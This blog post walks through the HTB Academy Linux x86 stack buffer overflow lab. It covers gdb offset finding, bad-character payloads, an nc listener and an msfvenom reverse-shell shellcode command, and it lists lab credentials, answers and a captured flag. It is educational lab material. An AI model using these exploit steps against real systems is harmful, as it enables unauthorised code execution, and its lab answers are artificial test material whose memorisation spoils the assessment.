Welcome to **Part 35** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Stack-Based Buffer Overflows on Linux x86** (Tier II • Medium • Offensive). We break down the underlying mechanics of x86 Linux binary exploitation, stack frame anatomy, CPU registers, buffer overflow offsets, bad character analysis, EIP overwrite, and custom shellcode injection, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-34-using-crackmapexec/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 34: Using CrackMapExec for Active Directory Dominance</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 35 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-36-stack-based-buffer-overflows-on-windows-x86/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 36: Stack-Based Buffer Overflows on Windows x86</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Stack-Based Buffer Overflows on Linux x86` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/31](https://academy.hackthebox.com/module/31) |
| **Curriculum Tier & Difficulty** | `Tier II` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 35 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **Stack Frame Architecture**: Deconstructs function prologues, local buffer allocation, base pointer (`EBP`), and saved instruction pointer (`EIP`).
* **Offset Identification**: Uses cyclic pattern generation and calculation (`pattern_create`, `pattern_offset`) to precisely pinpoint the EIP overwrite offset.
* **Bad Character Analysis**: Systematically identifies byte values that get truncated or corrupted by vulnerable string handling functions.
* **Shellcode Development**: Compiles and injects custom Linux x86 `/bin/sh` shellcode into memory buffers.
* **NOP Sleds & Jump Instructions**: Employs NOP sleds (`\x90`) and `JMP ESP` instructions to achieve reliable execution flow hijacking.

## Executive Summary & Assessment Scope

Stack-based buffer overflows represent the foundational class of memory corruption vulnerabilities. Corrupting the execution stack allows an attacker to overwrite the saved instruction pointer and redirect processor execution to arbitrary shellcode.

In this module, we conduct a low-level disassembly and exploitation study of Linux x86 binaries. We inspect registers using GDB, identify exact EIP offsets, eliminate bad characters, inject custom shellcode, and capture all assessment flags.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Stack-Based Buffer Overflows on Linux x86

> **Lab Question (Page 1)**: At which address in the "main" function is the "bowfunc" function gets called?
>
> **Flag / Answer**: `0x000005aa`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in the section guide presentation of the disassembled main function –
we can see that the call to bowfunc was made in the address '0x000005aa' of
the 'main' function:

*note - the binary info in the section's guide details the binary itself in the
target machine, so identification of the address in the section guide is
equivalent to identification of the address in the binary itself using GDB or any
other tool, same for any other pieces of information obtained from the binary.
*


*_Figure 1.1 — Lab execution and output verification (Page 1)_*


### Take Control of EIP

> **Lab Question (Page 2)**: Examine the registers and submit the address of EBP as the answer.
>
> **Flag / Answer**: `0x55555555`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets look the registers info shown in the section's guide:


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


### Determine the Length for Shellcode

> **Lab Question (Page 3)**: How large can our shellcode theoretically become if we count NOPS and the shellcode size together? (Format: 00 Bytes)
>
> **Flag / Answer**: `250 bytes`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

from the section's guide:

The NOPs (no operation instruction) size is 100 bytes, and the shellcode is 150
bytes. Together – 250 bytes.


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


### Identification of Bad Characters

> **Lab Question (Page 4)**: Find all bad characters that change or interrupt our sent bytes' order and submit them as the answer (e.g., format: \x00\x11).
>
> **Flag / Answer**: `\x00\x09\x0a\x20`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

In here deducing the correct information from the binary description
iin the section guide wont be suffice, we will have to enter the target machine.
we will use the provided credentials 'htb-student:HTB_@cademy_stdnt!':
```bash
ssh htb-student@<target-IP>
```
to enter the target machine.
in it – we have the bow binary:


Lets analyze it with gdb:
```bash
gdb ./bow
```


Now, based on previous sections – we know the function that does the heavy
lifting (input handling) is 'bowfunc' – we will set breakpoint in it:


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


### meaning from /0x00 to /0xff (/0x00/0x01/0x02……/0xfe/0xff)

break bowfunc


Now, we will start the binary execution in GDB with the following payload:
$(python -c 'print "\x55" * (1040 - 254 - 4) +
"".join([chr(x) for x in range(0, 256)]) + "\x66" * 4')
The payload will generate a string of all bytes from 0 to 255 (including) –
meaning from /0x00 to /0xff (/0x00/0x01/0x02……/0xfe/0xff):
```bash
run $(python -c 'print "\x55" * (1040 - 254 - 4) +
"".join([chr(x) for x in range(0, 256)]) + "\x66" * 4')
```


The execution of course, halted in the breakpoint.

Now, we will examine the memory – we expect to see a string of '0x55', then
our payload (/0x00/0x01/0x02……/0xfe/0xff), and at the end – 4 times '0x66':
x/1100xb $esp+500


The string of '0x55' starts after the marked red arrow.
*
*


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


*_Figure 5.3 — Lab execution and output verification (Page 5)_*


### the relevant part

Our payload starts here
*
*

And the payload ends here, and the string of '0x66' start here.

Now, as the payload is very long, the entirety of it will be not shown here, only
the relevant part:

In the red markings, are the bytes '0x00' and '0x0a' – forbidden bytes which
are not accepted by shellcodes.
In the cyan markings – are the binary un-accepted bytes (bad characters) –
'0x09' and '0x20' . And they are interpreted in the memory as '0x00'.

Which makes the final result as '\x00\x09\x0a\x20' as un-accepted characters.


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


*_Figure 6.3 — Lab execution and output verification (Page 6)_*


### Generating Shellcode

> **Lab Question (Page 7)**: Submit the size of the stack space after overwriting the EIP as the answer . (Format: 0x00000)
>
> **Flag / Answer**: `0x21000`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from the previous question – on gdb, we run the
command:
info proc all
to view process info

*
*
Hit 'enter' (return) on prompt to continue..

And on field 'stack' – we get the size.


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


### Capstone: Skills Assessment

> **Lab Question (Page 8)**: Determine the file type of "leave_msg" binary and submit it as the answer .
>
> **Flag / Answer**: `ELF 32-bit`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will enter the target machine using the provided credentials
'htb-student:HTB_@cademy_stdnt!':
```bash
ssh htb-student@<target-IP>
```

in it – we see 2 files:


Lets examine the 'leave_msg' file using the 'file' command:
file leave_msg


Question: How many bytes in total must be sent before reaching EIP?
Answer: 2060
Method: For that, we will need to run 'leave_msg' with big specialized payload,
with GDB.
We will start with creating the payload – for that we will use the tool
'pattern_create.rb', which is designated to create specialized patterned
payloads.
The tool can be found in the pwnbox in the path '/usr/share/metasploit-
framework/tools/exploit/pattern_create.rb'.
We will need to create pattern in length long enough to induce segmentation
fault in the execution – for our case – payload of length 2100 bytes will suffice:


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


### The payload was outputted to a file 'pattern.txt'

/usr/share/metasploit-
framework/tools/exploit/pattern_create.rb -l 2100 >
pattern.txt
The payload was outputted to a file 'pattern.txt':


Lets read it:

*
*


Ok, we have the payload ready.
Lets start the 'leave_msg' execution woith gdb, we will use the '-q'  flag to
suppress intro message:
```bash
gdb -q ./leave_msg
```


Now, we will run the binary with the created payload:
```bash
run $(python -c "print
'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa....<SNIP>....Cq7Cq8Cq9Cr0Cr1Cr2C
r3Cr4Cr5Cr6Cr7Cr8Cr9'")
```
*most of the payload was snipped out due to length. *


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


*_Figure 9.3 — Lab execution and output verification (Page 9)_*


*_Figure 9.4 — Lab execution and output verification (Page 9)_*


### in total that must be sent before reaching EIP

*
*

In the red mark we can see the segmentation fault – overflow of the allocated
memory (in this case – the stack), and in the cyan mark – we can see the
current value of the instruction pointer register (EIP) - 0x37714336.

We take the EIP value, and with the tool 'pattern_offset.rb' – located in
'/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb' in the
pwnbox – we can use it with determine the offset of the EIP , meaning the bytes
in total that must be sent before reaching EIP:
/usr/share/metasploit-
framework/tools/exploit/pattern_offset.rb -q 0x37714336


The way the tools works together – is that the payload somewhere overruns
the EIP register, and the 'pattern_offset' can determine the required offset by
the overrun EIP value.
Meaning 'normal' patyloads like 'print '\x55' * 2200' (220 bytes of 'x55') will
not work.


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


*_Figure 10.3 — Lab execution and output verification (Page 10)_*


### and look for the stack

> **Lab Question (Page 11)**: Submit the size of the stack space after overwriting the EIP as the answer . (Format: 0x00000)
>
> **Flag / Answer**: `0x22000`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will run
info proc all
and look for the stack:

*
*


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


### listening on port 4444

> **Lab Question (Page 12)**: Read the file "/root/flag.txt" and submit the content as the answer.
>
> **Flag / Answer**: `HTB{wmcaJe4dEFZ3pbgDEpToJxFwvTEP4t}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, lets set the listener, we will run it on the target machine,
listening on port 4444:
```bash
nc -lnvp 4444
```


Now, before we generate the reverse shell payload using msfvenom, we need
to determine bad characters.
We will do it in the same method we did in 'Identification of Bad Characters'
section.

For that, first we need to determine what is the function that handles the
input, we will use 'objdump -d' for that:
objdump -d leave_msg


*
*

The function is 'leavemsg'.


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


*_Figure 12.3 — Lab execution and output verification (Page 12)_*


### 'leavemsg'

Now, lets identify the bad characters which should not be in our shellcode –
first lets run (or re-run) the 'leave_msg' with gdb, and set breakpoint in
'leavemsg':
break leavemsg


And run the bad characters payload:
```bash
run $(python -c 'print "\x55" * (2060 - 256) +
"".join([chr(x) for x in range(0, 256)]) + "\x66" * 4')
```

notice in here we generate buffer of (2060-256), where 2060 is the amount of
bytes required to get to the EIP , determined in the first question. And 256 is the
amount of bad characters. At the end – are the 4 bytes of representing the EIP,
marked by x66.

Then lets view the memory (2060 bytes + some extra to see some of the bytes
before and after the relevant bytes, we will view 2015 bytes):
x/2150xb $esp+500


(the red arrow marks the buffer beginning)


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


*_Figure 13.3 — Lab execution and output verification (Page 13)_*


*
*

In this sreenshot the bad characters start – we can see that the bad characters
are: '\x00\x09\x0a\x20'
*
*

*end of bad characters, start of EIP , marked by the 0x66 for the next 4 bytes.

Now that we have the bad characters, lets construct the shellcode:
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1
lport=4444 --format c --arch x86 --platform linux --bad-
chars "\x00\x09\x0a\x20" --out shellcode


We have the shellcode, with payload size of 95 bytes.


*_Figure 14.1 — Lab execution and output verification (Page 14)_*

